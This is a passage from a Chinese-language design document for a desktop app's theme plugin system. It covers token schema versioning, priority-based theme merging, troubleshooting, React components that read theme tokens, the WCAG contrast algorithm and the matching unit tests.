这四个方法在 shell 层实现：`listThemes`/`getCurrentThemeId`/`setCurrentThemeId` 调用 14.2.3 的 shell 函数（`registry` 快照 + `getCurrentThemeId`/`setCurrentThemeId`），`onThemeChange` 在 `ThemeContext` Provider 处订阅 Context value 变化、转发给回调。这套 API 让管理 UI 插件能完整实现"主题选择器"——枚举（`listThemes`）、显示当前（`getCurrentThemeId`）、切换（`setCurrentThemeId`）、跟手刷新（`onThemeChange`）。插件不需要也不应该直接访问 `registry`/`ThemeContext`/electron-store——全部经此 API。

插件作者用到的接口是 `useTheme()`（pi.ui 组件内部 + 自定义元素读 token）、`PluginContext.theme`（管理 UI 主题选择器用）和 `pi.ui` 组件库——经 pi.ui 组件自动跟主题，或 `useTheme()` 拿 `Theme` 对象读 token，或 `theme` API 做主题管理。其余 shell 层接口（`getCurrentThemeId`/`setCurrentThemeId`/`startThemeListener`）是 core 内部用、不对插件直接暴露——插件经 `PluginContext.theme` 间接获得等价能力。

---

## 15 token 契约的版本与兼容

### 15.1 token 清单是带版本的契约

#### 15.1.1 清单版本号

core 的 token 清单（`domain/slots/theme-tokens.ts` 的 `THEME_TOKEN_KEYS`）是一个带版本号的契约。版本号采用语义化版本：新增 token key 是 minor 升（旧主题不填新 key 用默认值、向后兼容）、删 token key 或改 key 语义是 major 升（破坏性、旧主题可能失效）。版本号存在 `THEME_TOKEN_SCHEMA_VERSION` 常量里（当前 `"1.0"`，见 14.2.1），manifest 的根级 `tokenSchemaVersion` 字段（见 4.1.2）可以引用它做兼容性声明（如 `"tokenSchemaVersion": "^1.0"`），加载器校验时如果插件声明的版本和 core 当前不兼容（major 不匹配）、标黄警告但不禁用（让旧主题在新 core 上尽力跑、能用多少用多少）；minor 不匹配视为兼容、不告警。该字段可选、默认 `"^1.0"`。

#### 15.1.2 默认值兜底机制

core 为每个 token key 提供默认值（`THEME_TOKEN_DEFAULTS`）。合并阶段 `resolveTheme` 完成后、再跑一次"默认值补齐"——遍历 `THEME_TOKEN_KEYS`、合并结果里没有的 key 用 `THEME_TOKEN_DEFAULTS` 补上。这保证无论主题插件填了多少 key、合并后的 `Theme` 对象永远包含全部 key、core 渲染时 `theme["color.bg"]` 永远有值、不会出现 undefined。这是"core 不内嵌视觉常量"和"core 保证 token 可用"的平衡——core 不把默认值硬编码进渲染代码、但把它们集中放在 token 清单的默认值表里、合并时补齐。默认值表本身是圆心契约的一部分、随 token 清单版本演化。

### 15.2 一个冲突仲裁的完整示例

#### 15.2.1 场景设定

假设有三个插件贡献主题：

- 内置 theme 插件（builtin 优先级）：贡献 `dark` 主题（全套 token）、`light`、`auto`。
- 用户级 `acme-theme` 插件（user 优先级）：贡献 `dark` 主题（声明 `base: "dark"`、只覆盖 `color.primary`/`color.primary-fg`）——意图是"在 dark 基础上换品牌色"。
- 项目级 `proj-theme` 插件（project 优先级）：贡献 `dark` 主题（不声明 base、全套 token）——意图是"整个替换 dark"。

#### 15.2.2 仲裁过程

按第 17.1.1 节的挂载逻辑：

1. 收集所有主题贡献项、按优先级排序：proj-theme(dark, 无base) > acme-theme(dark, 有base) > theme(dark, 无base, builtin)。
2. 分流：proj-theme 的 dark 不声明 base → 整套主题候选。acme-theme 的 dark 声明 base → 补丁候选。theme 的 dark 不声明 base → 整套主题候选。
3. 整套主题 id 级二选一：id=dark 有两个候选（proj-theme project、theme builtin），按优先级取 proj-theme、theme 的 dark 被覆盖（记冲突：project 覆盖了 builtin）。
4. token 级合并：proj-theme 的 dark tokens 作为基底。acme-theme 的 dark 补丁（base:dark）按优先级覆盖——但这里有个判断：acme-theme 的 dark 声明了 base:"dark"、它本身也是一个 id="dark" 的主题。第 17.1.1 节的伪代码里、声明 base 的进 patchThemes、参与"同 id 的 token 级合并"。所以 acme-theme 的 `color.primary`/`color.primary-fg` 覆盖到 proj-theme 的 dark tokens 上。

最终 `dark` 主题 = proj-theme 全套 + acme-theme 的品牌色覆盖，合并条目的 `base` 沿用 proj-theme 的 `base`（即 `undefined`）。用户选 dark 时 `resolveTheme("dark")` 看到 `base` 为 `undefined`、直接返回这套合并 tokens，不触发继承递归——不会因 acme-theme 声明的 `base:"dark"` 形成 dark→dark 自引用循环。acme-theme 的"品牌微调"意图（在 dark 基础上换主色）通过 token 级合并达成了——尽管它声明 base:"dark"、但它的 token 覆盖到了当前生效的 dark（proj-theme）上、不是它 base 指向的内置 dark。这有个语义微妙点：acme-theme 的 base:"dark" 在这个场景下没起继承作用（因为它被当作 patch 参与了 id 合并、它的 base 被丢弃、没走 resolveTheme 继承路径）。

**base 何时生效、何时被忽略的可判定规则**（与第 17.1.1 节一致、此处为示例佐证）：`base` 的继承语义**仅在"该主题 id 未被更高优先级的整套主题整体覆盖、且被单独选中为 `currentThemeId`"时生效**——此时 `resolveTheme` 读该条目的 `base`、递归取父主题 token 打底、再用自身 token 覆盖。当该主题作为"同 id 的补丁"参与覆盖另一个同 id 条目时（上述 acme-theme 的 dark 命中 proj-theme 的 dark），`base` 字段被**丢弃**、不透传到合并条目——合并条目沿用被覆盖条目的 `base`，补丁只贡献 token 覆盖。这避免了"补丁 base 指向同 id 整套主题"形成 base===themeId 的自引用循环。换句话说：声明 base 的主题被"单独选中"才走继承、被"同 id 合并"时只贡献 token 覆盖、其 base 不生效。本例中 acme-theme 的 dark 和 proj-theme 的 dark 同 id、acme-theme 作为补丁参与了 dark 这个 id 的合并、所以它的 base 继承不生效；若用户把 acme-theme 的主题 id 改成独立的 `acme-dark`（如 4.1.1 示例）、再选中 `acme-dark`、此时 base:"dark" 才会被 `resolveTheme` 递归解析。这是当前实现的一个边界——演进可以澄清或拆分"继承"和"补丁"两个概念，但当前规则是确定的、可据此判断。

---

## 16 排障指南

### 16.1 主题切换没生效

#### 16.1.1 排查路径

用户报告"选了主题但界面没变"，排查路径：

1. **查诊断页**：是否有该主题的加载错误（循环继承、base 不存在、token 缺失）。有错误则主题没合并成功、GUI 仍用上一个 Theme。
2. **查 electron-store**：`currentThemeId` 是否写进去了。没写可能是管理 UI 插件的 bug。
3. **查主题槽注册表**：该主题 id 是否在注册表里。不在可能是插件没被发现（路径不对）、或被同名高优先级插件覆盖了（查覆盖关系记录）。
4. **查 pi.ui 组件是否消费 Context**：自定义元素如果没 `useContext(ThemeContext)` 或没从 props 拿 `theme`，它不会跟主题切换重渲染——这是插件代码 bug、不是 core 的事。

#### 16.1.2 部分元素没变

如果"大部分元素变了、某几个没变"，是那几个元素硬编码了颜色值（第 9.2.2 节）。lint 应该警告过、查 lint 输出。修复是改插件代码、用 `theme["color.xxx"]` 取值。

### 16.2 对比度告警

#### 16.2.1 告警来源

诊断页的对比度告警来自 `validateContrast`（第 8.2.2 节）。每条告警标明：哪个 token 对（如 `color.fg` on `color.bg`）、实际色值、算出的对比度、要求值（4.5 或 3）。用户/插件作者据此定位是哪个色值不达标。

#### 16.2.2 修复

修复是改主题插件的 token 值——把不达标的色调深或调浅、让对比度达标。不在诊断页里改（诊断页只读）。改完热重载（第 11.2 节）、重新合并、重新校验、告警消失。

### 16.3 跟随系统不工作

#### 16.3.1 排查

用户报告"选了 auto 但系统切暗黑模式桌面没跟"，排查：

1. **查 currentThemeId 是不是 auto**：不是 auto 就不跟随（auto 是主题选择、不是默认）。
2. **查 nativeTheme 监听是否注册**：切到 auto 时应注册 `nativeTheme.on("updated")`。没注册可能是 shell 层 bug。
3. **查系统是否真的发了配色变化事件**：某些 Linux 桌面环境不发 prefers-color-scheme 变化、nativeTheme 收不到。这是平台限制、不是 pi-desktop 的 bug。
4. **查 auto 的 base 解析**：`resolveAutoBase()` 返回的值是否正确。返回 `"dark"` 但系统是亮、可能是 nativeTheme 的 `shouldUseDarkColors` 判断和预期不符。
5. **查系统是否返回 `no-preference`**：某些系统（未配置明暗偏好的 Linux 桌面、早期 macOS）`nativeTheme.prefersColorScheme` 返回 `"no-preference"`，pi-desktop 显式默认按 dark 处理（见 7.1.1）。如果用户预期"无偏好应回退到最近一次显式选择"，当前做不到、是已知限制（24 节演进项）。诊断页可查 `resolveAutoBase` 的实际返回值确认。

### 16.4 第三方主题装了没出现

#### 16.4.1 排查

用户报告"装了 solarized 主题但选择器里没有"，排查：

1. **查插件是否被发现**：插件落在 `~/.pi/desktop/plugins/` 或 `~/.pi/desktop/installed/{id}/{version}/`。外部安装的走 `loader.loadExplicit()`（`DESIGN.md` 3.9.7），发现层不扫 installed 目录——要 installer 显式通知加载器加载。
2. **查 manifest 校验**：`contributes.themes` 的字段是否符合 schema。校验失败会被标红、不挂载。
3. **查主题 id 冲突**：如果第三方主题的 id 和内置的 `dark`/`light`/`auto` 重名，按优先级二选一，可能被内置覆盖。第三方主题应该用独特 id（如 `solarized-dark` 而不是 `dark`）。

---

## 17 主题槽挂载的实现细节

### 17.1 mount.ts 的两层仲裁落地

#### 17.1.1 挂载函数的结构

主题槽的挂载逻辑在 `application/loader/mount.ts`，和别的槽位不同——别的槽位挂载是"同 id 二选一"（直接 `resolveByPriority`），主题槽要按 `base` 字段分流做两层仲裁。挂载函数分四步走：

```typescript
// application/loader/mount.ts —— 主题槽专用挂载
function mountThemeContributions(plugins: LoadedPlugin[], registry: ThemeRegistry): void {
  // 第一步：收集所有主题贡献项，按来源插件优先级排序（project > user > installed > builtin）
  const allThemes: Array<{ contribution: ThemeContribution; source: PluginSource; pluginId: string }> = [];
  for (const plugin of plugins) {
    for (const theme of plugin.manifest.contributes?.themes ?? []) {
      allThemes.push({ contribution: theme, source: plugin.source, pluginId: plugin.id });
    }
  }
  allThemes.sort(bySourcePriorityDescending);  // 高优先级在前

  // 第二步：按是否声明 base 分流
  //   不声明 base → 整套候选：参与同 id 二选一
  //   声明 base   → 补丁候选：按自己的 id 注册，保留 base 字段，合并阶段被选中时才递归继承
  const fullThemes = new Map<string, { contribution: ThemeContribution; source: PluginSource; pluginId: string }>();
  const patchThemes: typeof allThemes = [];
  for (const entry of allThemes) {
    if (entry.contribution.base) {
      patchThemes.push(entry);  // 声明 base 的是"继承型子主题"，按自身 id 注册
    } else {
      // 整套主题：同 id 二选一
      const existing = fullThemes.get(entry.contribution.id);
      if (!existing || isHigherPriority(entry.source, existing.source)) {
        fullThemes.set(entry.contribution.id, entry);
      } else {
        markThemeConflict(entry.contribution.id, existing.pluginId, entry.pluginId);
      }
    }
  }

  // 第三步：整套主题写进注册表（每个 id 取胜者，base 为 undefined）
  for (const [id, full] of fullThemes) {
    registry.set(id, {
      id, name: full.contribution.name, tokens: { ...full.contribution.tokens },
      base: undefined, sourcePlugin: full.pluginId, available: true,
    });
  }

  // 第四步：补丁主题按自身 id 注册——
  //   同 id 的多个补丁做 key 级覆盖（高优先级覆盖低优先级）。
  //   补丁主题不参与"同 id 的整套二选一"：即便它的 id 和某个 fullTheme 重名，
  //   它也是独立条目、按优先级覆盖 fullThemes 里同 id 的整套 token（继承型覆盖整套）。
  //   合并阶段（resolveTheme）被选中时，才读它的 base 字段递归取父主题打底、再用自身 token 覆盖。
  //   例外：当补丁与同 id 条目合并（else 分支）时，补丁的 base 被丢弃、不透传——
  //   合并条目沿用 existing.base，避免补丁 base 指向同 id 形成自引用循环（见 1.3.3 / 15.2.2）。
  for (const patch of patchThemes) {
    const id = patch.contribution.id;
    const existing = registry.get(id);
    if (!existing) {
      // id 唯一、无同 id 的整套主题：补丁作为独立条目进注册表，base 待合并时解析
      registry.set(id, {
        id, name: patch.contribution.name, tokens: { ...patch.contribution.tokens },
        base: patch.contribution.base, sourcePlugin: patch.pluginId, available: true,
      });
    } else {
      // 同 id 已有条目（整套主题或更早的补丁）：按 key 级覆盖合并。
      // 关键：补丁的 base 字段在此被丢弃、不透传——合并条目的 base 沿用 existing.base。
      // 这避免"补丁 base 指向同 id 整套主题"形成的自引用（如 id:"dark" + base:"dark"），
      // 否则 resolveTheme 在用户选中该 id 时会因 base===themeId 触发循环继承、把该 id 判为不可用、
      // 进而拖垮整个 fallback 链（见 1.3.3 / 15.2.2）。补丁的继承语义只在它"自身 id 独特、
      // 被单独选为 currentThemeId"时才由 resolveTheme 读其 base 触发——同 id 合并时只贡献 token 覆盖。
      const mergedTokens = { ...existing.tokens, ...patch.contribution.tokens };
      registry.set(id, {
        id, name: patch.contribution.name, tokens: mergedTokens,
        base: existing.base,
        sourcePlugin: patch.pluginId, available: existing.available,
        unavailabilityReason: existing.unavailabilityReason,
      });
    }
  }
}
```

这套实现的关键不变量：**每一个通过 manifest 校验的主题贡献项，无论是否声明 `base`，最终都按其 `id` 写进注册表、成为一个可被 `currentThemeId` 选中、可被 `resolveTheme` 合并的条目**。声明 `base` 的主题（如 4.1.1 的 `acme-dark`、4.2.1 的 `auto`、4.3.1 的 `solarized-dark`/`solarized-light`）只要自身 id 独特，就一定进注册表——它们不是"被丢弃的补丁"，而是"继承型子主题"，合并阶段被选中时才递归解析 `base`。这保证了全文所有第三方主题示例都能被正确注册和选中。

`base` 字段何时生效、何时被忽略，有一条可判定的规则：**`base` 的继承语义仅在"该主题 id 未被更高优先级的整套主题整体覆盖、且被单独选中为 `currentThemeId`"时生效**——此时 `resolveTheme` 读该条目的 `base`、递归取父主题 token 打底、再用自身 token 覆盖。当该主题作为"同 id 的补丁"参与覆盖另一个同 id 条目时（第四步的 `existing` 分支），`base` 字段被**丢弃**、不透传到合并条目——合并条目沿用 `existing.base`，补丁只贡献 token 覆盖。这避免了"补丁 base 指向同 id 整套主题"形成 base===themeId 的自引用循环（如 `id:"dark"` + `base:"dark"`），否则 `resolveTheme` 会在选中该 id 时触发循环继承、把该 id 判为不可用、拖垮 fallback 链。这是当前实现的一个边界（见 15.2.2）。

#### 17.1.2 仲裁和通用 resolveByPriority 的关系

主题槽的挂载没有直接复用 `DESIGN.md` 5.1.5 的共享原语 `resolveByPriority<T>`——因为 `resolveByPriority` 是"按优先级二选一"、主题槽的 token 级合并是"按 key 合并"。但整主题 id 级二选一那一步用了 `resolveByPriority` 的等价逻辑（`isHigherPriority` 就是优先级比较）。这是"通用原语 + 主题槽专属规则"的组合：通用仲裁负责二选一、主题槽专属规则负责 token 级合并。不是把所有逻辑都塞进 `resolveByPriority`、让它变成"既二选一又合并"的怪物——关注点分离。

### 17.2 注册表的数据结构

#### 17.2.1 ThemeRegistry 的形状

主题槽注册表（`SlotRegistry["themes"]`）是一个 `Map<string, ThemeRegistryEntry>`，key 是主题 id、value 是该主题的聚合信息。合并阶段使用的 `ThemeRegistry` 即 `SlotRegistry["themes"]` 的别名/同类型——两者是同一类型，key 为主题 id（见 2.2.1）：

```typescript
// domain/slots/registry.ts —— 主题槽注册表条目
interface ThemeRegistryEntry {
  id: string;                          // 主题 id
  name: string;                        // 展示名（i18n key 或裸字符串）
  tokens: Record<string, string>;      // 该主题的 token 值（已 token 级合并 + 整主题二选一）
  base?: string;                       // 继承的父主题 id（合并阶段递归解析）
  sourcePlugin: string;                // 来源插件 id（排障/诊断用）
  available: boolean;                  // 是否可用（延迟校验后置 false 表示不可用）
  unavailabilityReason?: string;       // 不可用原因（循环继承/base 不存在等）
}
```

`available` 和 `unavailabilityReason` 是延迟校验（第 11.1.2 节）的产物——挂载时都置 `available: true`，延迟校验跑完把有问题的置 false 并填原因。主题选择器查注册表时跳过 `available: false` 的、诊断页显示它们的原因。

#### 17.2.2 注册表是不可变快照

合并阶段（`resolveTheme`）拿到的注册表是一个不可变快照——挂载完 + 延迟校验完后、core 把注册表 freeze 一次、合并阶段读这个快照。热重载时重新挂载生成新快照、替换旧快照。这避免合并过程中注册表被改、导致 `resolveTheme` 递归读到不一致状态。这是"挂载和合并分开"的体现——挂载写注册表、合并读注册表、两者不交叉。

---

## 18 pi.ui 组件库如何消费 token

### 18.1 一个组件的内部实现

#### 18.1.1 Button 组件示例

pi.ui 的 Button 组件内部读 token 渲染样式。一个简化实现：

```typescript
// shell/renderer/ui/Button.tsx
import { useContext } from "react";
import { ThemeContext } from "../theme-context";

export function Button({ children, variant = "primary", ...props }: ButtonProps) {
  const theme = useContext(ThemeContext);
  const styles = variant === "primary"
    ? {
        backgroundColor: theme["color.primary"],
        color: theme["color.primary-fg"],
        borderRadius: theme["radius.sm"],
        padding: `${theme["spacing.xs"]} ${theme["spacing.sm"]}`,
        fontSize: theme["font.size.base"],
        fontFamily: theme["font.family.sans"],
        border: `${theme["border.width.thin"]} solid ${theme["color.primary"]}`,
        cursor: "pointer",
      }
    : { /* secondary variant 用 color.surface 等 */ };
  return <button style={styles} role="button" {...props}>{children}</button>;
}
```

注意几个点：所有视觉值都从 `theme` 取、没有硬编码；`variant` 控制用哪组 token（primary/secondary）；ARIA 的 `role="button"` 是原生 button 自带、但自定义元素要手动加。这个组件被主题切换影响——`ThemeContext` value 变、`useContext` 触发重渲染、`styles` 重算、DOM 更新。

#### 18.1.2 Dialog 组件的焦点管理

Dialog 组件除了读 token，还承担焦点管理（第 9.3.1 节）。简化实现用 react-focus-lock：

```typescript
// shell/renderer/ui/Dialog.tsx
import { useContext, useEffect, useRef } from "react";
import FocusLock from "react-focus-lock";
import { ThemeContext } from "../theme-context";

export function Dialog({ open, title, children, onClose }: DialogProps) {
  const theme = useContext(ThemeContext);
  const triggerRef = useRef<HTMLElement>(document.activeElement as HTMLElement);
  useEffect(() => {
    if (!open) return;
    const trigger = document.activeElement as HTMLElement;
    triggerRef.current = trigger;  // 记录触发元素
    return () => trigger?.focus();  // 关闭后还原焦点
  }, [open]);
  if (!open) return null;
  return (
    <FocusLock returnFocus>
      <div role="dialog" aria-modal="true" aria-label={title}
           style={{ backgroundColor: theme["color.surface"],
                    color: theme["color.surface-fg"],
                    borderRadius: theme["radius.lg"],
                    boxShadow: theme["shadow.lg"],
                    padding: theme["spacing.md"] }}>
        <h2>{title}</h2>
        {children}
        <EscHandler onClose={onClose} />  {/* Esc 触发 onClose */}
      </div>
    </FocusLock>
  );
}
```

`FocusLock` 实现 Tab 陷阱（在模态内循环）、`returnFocus` 实现关闭后还原焦点。`role="dialog"` + `aria-modal="true"` 是 ARIA 语义。Esc 关闭通过 keydown 监听。这些是 pi.ui 组件库内置的、插件用 `<pi.ui.Dialog>` 自动获得。

### 18.2 自定义元素的正确写法

#### 18.2.1 经 props 读 theme

cardRenderer 组件经 props 收到 `theme`（`DESIGN.md` 3.2.6 的 cardRenderer props 契约）。一个自定义进度条渲染器：

```typescript
// 某插件的 renderer 代码
function ProgressBar({ progress, theme }: { progress: number; theme: Theme }) {
  return (
    <div style={{
      backgroundColor: theme["color.surface"],
      borderRadius: theme["radius.sm"],
      height: theme["spacing.xs"],
      width: "100%",
      overflow: "hidden",
    }}>
      <div style={{
        width: `${progress * 100}%`,
        backgroundColor: theme["color.primary"],
        height: "100%",
      }} />
    </div>
  );
}
```

所有色值、圆角、尺寸都从 props 的 `theme` 取。主题切换时 core 重渲染这个组件、传入新 `theme`、样式重算。没有硬编码颜色。

#### 18.2.2 错误写法

错误写法是硬编码颜色：

```typescript
// 错误：硬编码颜色
function BadProgressBar({ progress }: { progress: number }) {
  return (
    <div style={{ backgroundColor: "#313244", borderRadius: "4px" }}>
      <div style={{ width: `${progress*100}%`, backgroundColor: "#89b4fa" }} />
    </div>
  );
}
```

这个组件主题切换时不变色——硬编码的 `#313244`/`#89b4fa` 绕过了主题槽。lint（第 9.2.2 节）应该扫到这种字面量并警告。修复是改成从 `theme` 取值。

---

## 19 对比度计算的算法细节

### 19.1 WCAG 对比度公式

#### 19.1.1 相对亮度

WCAG 对比度公式先算两个颜色的相对亮度（relative luminance）L。对于 sRGB 颜色，先把每个 RGB 分量（0–255）归一化到 0–1（`c / 255`），然后按分段函数转线性：`c ≤ 0.03928 ? c/12.92 : ((c+0.055)/1.055)^2.4`。线性化后加权求和：`L = 0.2126*R + 0.7152*G + 0.0722*B`（权重对应人眼对红绿蓝的敏感度）。

#### 19.1.2 对比度比值

两个颜色的对比度 = `(L1 + 0.05) / (L2 + 0.05)`，L1 是较亮的、L2 是较暗的。`+0.05` 是为了防止纯黑（L=0）时除零、并模拟环境光散射。结果范围 1:1（同色）到 21:1（纯黑纯白）。AA 要求正文 ≥4.5:1、大字号 ≥3:1。

```typescript
// application/theme/contrast.ts —— 对比度计算
// 支持：#rgb / #rrggbb / #rrggbbaa（alpha 按 source-over 合成到底色）/ rgb(r,g,b) / rgba(r,g,b,a)
function parseColor(value: string, fallbackBg?: [number, number, number]): [number, number, number] | null {
  const v = value.trim();
  // hex 3/6/8 位
  const hexM = /^#?([0-9a-f]{8}|[0-9a-f]{6}|[0-9a-f]{3})$/i.exec(v);
  if (hexM) {
    const raw = hexM[1].length === 3
      ? hexM[1].split("").map(c => c + c).join("")
      : hexM[1];
    const hasAlpha = raw.length === 8;
    const n = parseInt(hasAlpha ? raw.slice(0, 6) : raw, 16);
    const rgb: [number, number, number] = [(n >> 16) & 255, (n >> 8) & 255, n & 255];
    if (hasAlpha && fallbackBg) {
      const alpha = parseInt(raw.slice(6, 8), 16) / 255;
      return blend(rgb, fallbackBg, alpha);
    }
    return rgb;
  }
  // rgb()/rgba() 函数
  const fnM = /^rgba?\(\s*(\d{1,3})\s*,\s*(\d{1,3})\s*,\s*(\d{1,3})\s*(?:,\s*([01]|0?\.\d+)\s*)?\)$/i.exec(v);
  if (fnM) {
    const rgb: [number, number, number] = [+fnM[1], +fnM[2], +fnM[3]];
    const alpha = fnM[4] !== undefined ? parseFloat(fnM[4]) : 1;
    if (alpha < 1 && fallbackBg) return blend(rgb, fallbackBg, alpha);
    return rgb;
  }
  return null;
}

function blend(fg: [number, number, number], bg: [number, number, number], alpha: number): [number, number, number] {
  // 标准 source-over 合成：result = fg*alpha + bg*(1-alpha)
  return [
    Math.round(fg[0] * alpha + bg[0] * (1 - alpha)),
    Math.round(fg[1] * alpha + bg[1] * (1 - alpha)),
    Math.round(fg[2] * alpha + bg[2] * (1 - alpha)),
  ];
}

function relativeLuminance([r, g, b]: [number, number, number]): number {
  const toLinear = (c: number) => {
    const s = c / 255;
    return s <= 0.03928 ? s / 12.92 : Math.pow((s + 0.055) / 1.055, 2.4);
  };
  return 0.2126 * toLinear(r) + 0.7152 * toLinear(g) + 0.0722 * toLinear(b);
}

export function contrastRatio(fg: string, bg: string): number {
  // 先解析背景（背景通常不透明；背景自身带 alpha 时以黑色 [0,0,0] 兜底作混合底色）
  const bgRgb = parseColor(bg, [0, 0, 0]);
  if (!bgRgb) return NaN;
  // 前景若有 alpha，按背景做混合后再算
  const fgRgb = parseColor(fg, bgRgb);
  if (!fgRgb) return NaN;
  const l1 = relativeLuminance(fgRgb);
  const l2 = relativeLuminance(bgRgb);
  const lighter = Math.max(l1, l2);
  const darker = Math.min(l1, l2);
  return (lighter + 0.05) / (darker + 0.05);
}
```

这个实现支持的格式：hex 3 位（`#abc`）、hex 6 位（`#1e1e2e`）、hex 8 位（`#1e1e2eff`，alpha 通道按 source-over 合成混合到底色）、`rgb(r,g,b)`、`rgba(r,g,b,a)`。alpha 颜色的混合底色取对比度对里的 `bg`（背景），若背景自身也带 alpha 则再以黑色 `[0,0,0]` 兜底。不支持的格式（变量引用、`hsl()`、非法字符串）返回 `NaN`，校验时记"颜色值无法解析"警告。这是 8.1.2 所述契约的权威实现：rgb() 与带 alpha 的 hex 都在支持范围内，二者一处统一。

### 19.2 校验的边界情况

#### 19.2.1 状态色 on 主背景

`color.accent.*` 这类状态色通常用作图标色或小标签色、底色是 `color.bg` 或 `color.surface`。`CONTRAST_PAIRS` 把它们配 `color.bg`（第 8.1.1 节）、要求 ≥3:1（大字号/图标标准）。但实际使用中状态色可能出现在 `color.surface` 上（卡片里的成功标记）、这时对比度和 on `color.bg` 不同。当前 `CONTRAST_PAIRS` 只配了 on `color.bg`、没配 on `color.surface`——这是保守校验、可能漏报某些场景。演进是补 `on color.surface` 的对、但会增加主题插件要满足的约束数、权衡。

#### 19.2.2 透明度和混合

如果主题插件给的状态色带 alpha（如 `#a6e3a188`），对比度计算按 source-over 合成到底色后再算——`parseColor` 接到带 alpha 的 hex8 / `rgba()` 时、以对比度对的背景色（`bg`）为底色做 `fg*alpha + bg*(1-alpha)` 混合、再算相对亮度与对比度（见 19.1 的 `blend`）。背景自身带 alpha 时、以黑色 `[0,0,0]` 兜底作为混合底色。这与实际渲染时状态色和底色混合的视觉一致、不是“忽略 alpha 按不透明算”的近似。主题插件可以放心使用带 alpha 的色值、对比度校验会按混合后结果判定。这与 8.1.2 声称的 `contrastRatio` 支持 hex8 / `rgba()` 一致、三处对 alpha 的说法统一。

---

## 20 主题插件的测试

### 20.1 测试什么

#### 20.1.1 四类测试

主题插件要测四类：

- **manifest 校验**：`plugin.json` 的 `contributes.themes` 字段符合 schema。这是加载器第 3 项校验的输入、可以用 schema 校验工具单测。
- **挂载仲裁**：`mountThemeContributions`（第 17.1.1 节）的两层仲裁——按 base 分流、整套同 id 二选一、补丁按自身 id 注册、冲突标记。这是最易出错、且与前文契约最易漂移的部分，必须有专项单测。
- **合并正确性**：`resolveTheme` 对各种继承链（线性、嵌套、循环、auto）的合并结果正确。这是 `application/theme/merge.ts` 的单测。
- **对比度合规**：内置 dark/light 主题的 token 值满足 `CONTRAST_PAIRS`。这是回归测试——改 token 值时跑、保证不引入对比度退化。

#### 20.1.2 合并的单测用例

合并的单测要覆盖：

```typescript
// application/theme/merge.test.ts
describe("resolveTheme", () => {
  it("无 base 的主题原样返回 tokens", () => { /* ... */ });
  it("有 base 的主题继承父 token 再覆盖", () => { /* ... */ });
  it("嵌套继承链按深度递归合并", () => { /* A→B→C */ });
  it("循环继承抛 ThemeError", () => {
    const registry = makeRegistry({
      a: { id: "a", base: "b", tokens: {} },
      b: { id: "b", base: "a", tokens: {} },
    });
    expect(() => resolveTheme("a", registry)).toThrow(ThemeError);
  });
  it("base 不存在抛 ThemeError", () => { /* base 指向不存在的 id */ });
  it("auto 主题 base 动态解析", () => { /* base="__auto__" mock resolveAutoBase */ });
});
```

循环继承和 base 不存在是两个关键的错误路径测试、保证不拖垮 core。auto 的动态 base 测试要 mock `resolveAutoBase`、验证它在 `__auto__` 哨兵值下被调用。

#### 20.1.3 挂载仲裁的单测用例

挂载仲裁（第 17.1.1 节）的单测要覆盖两层仲裁的所有分支：

```typescript
// application/loader/mount.test.ts
describe("mountThemeContributions", () => {
  it("整套主题同 id 二选一：高优先级取胜、低优先级丢弃并记冲突", () => {
    // pluginA (builtin) dark 无 base + pluginC (project) dark 无 base → 注册表 dark = C 整套
    // markThemeConflict("dark", C, A) 被调用
  });
  it("声明 base 的补丁主题按自身 id 进注册表（不被丢弃）", () => {
    // acme-dark (base:dark, id 独特) → registry.get("acme-dark") 存在、base 透传
    // 验证 4.1.1/4.3.1 这类第三方主题能被选中
  });
  it("声明 base 的补丁主题与同 id 整套主题合并时做 key 级覆盖、补丁 base 被丢弃（沿用 existing.base）", () => {
    // pluginA dark 无 base + pluginB dark base:dark → registry.get("dark").tokens = A 整套被 B 的 token 覆盖
    //   且 base === undefined（沿用 A 的 base、B 的 base:"dark" 被丢弃），
    //   resolveTheme("dark") 不触发继承、不形成 dark→dark 自引用循环
  });
  it("同 id 多个补丁按优先级 key 级覆盖", () => {
    // B1 (user) dark base:dark color.primary=#aaa + B2 (project) dark base:dark color.primary=#bbb
    // → registry.get("dark").tokens.color.primary === "#bbb"
  });
  it("auto 主题（base:__auto__）按自身 id 进注册表", () => {
    // 内置 auto → registry.get("auto") 存在、base === "__auto__"
  });
  it("base 不存在在延迟校验时置 available:false、保留在注册表", () => {
    // orphan (base:nonexistent) → registry.get("orphan").available === false、unavailabilityReason 含"base"
  });
  it("循环继承在延迟校验时环上主题全置 available:false", () => { /* a→b→a */ });
});
```

这套单测直接守护第 17.1.1 节的核心不变量：每个通过校验的贡献项都进注册表、声明 base 的主题不丢、冲突正确标记、不可用状态正确传播。它和 20.1.2 的合并单测一起覆盖了"挂载→合并"的完整路径。

### 20.2 对比度回归测试

#### 20.2.1 内置主题的对比度快照

内置 dark/light 主题的每个 `CONTRAST_PAIRS` 对都要满足 AA。写一个回归测试、加载内置主题插件、合并、跑 `validateContrast`、断言无警告：

```typescript
// plugins/theme/contrast.test.ts
describe("built-in theme contrast", () => {
  for (const themeId of ["dark", "light"]) {
    it(`${themeId} 满足 WCAG AA`, () => {
      const registry = loadBuiltinThemePlugin();
      const { warnings } = buildCurrentTheme(themeId, registry);
      expect(warnings.filter(w => !Number.isNaN(w.ratio))).toEqual([]);
    });
  }
});
```

这个测试在改内置主题 token 值时跑、防止有人把 `color.fg` 调成对比度不足的色、回归引入无障碍退化。是"无障碍是规范不是可选"在测试层面的落地。

---

## 21 从零写一个主题插件：完整流程

### 21.1 需求与设计

#### 21.1.1 确定要覆盖的 token

写一个主题插件前先确定：要覆盖哪些 token、继承哪个 base。大部分主题只覆盖颜色 token、字号/间距/圆角/阴影用继承值。确定主色（`color.primary`/`color.primary-fg`）、背景前景（`color.bg`/`color.fg`/`color.surface`/`color.surface-fg`）、状态色（`color.accent.*`）、边框次要（`color.border`/`color.muted`）。阴影在明暗主题下差异大、如果要定制要分别给。

#### 21.1.2 选 base

如果主题是"dark 配色的变体"、`base: "dark"`、只覆盖颜色。如果是"light 配色的变体"、`base: "light"`。如果是全新配色（不属于明暗变体）、不声明 base、填全套 token——但这样要填 30+ key、维护成本高、不推荐。最好还是挂靠 dark 或 light、只覆盖差异部分。

### 21.2 实现 manifest

#### 21.2.1 写 plugin.json

按第 4.3 节的 solarized 示例写 `plugin.json`。关键是 `contributes.themes` 数组、每项 `{ id, name, base?, tokens }`。`id` 要独特、不和内置的 `dark`/`light`/`auto` 重名。`name` 可以是 i18n key（如 `"theme.solarizedDark"`、配合语言插件加文案）或裸字符串（如 `"Solarized Dark"`）。

#### 21.2.2 校验对比度

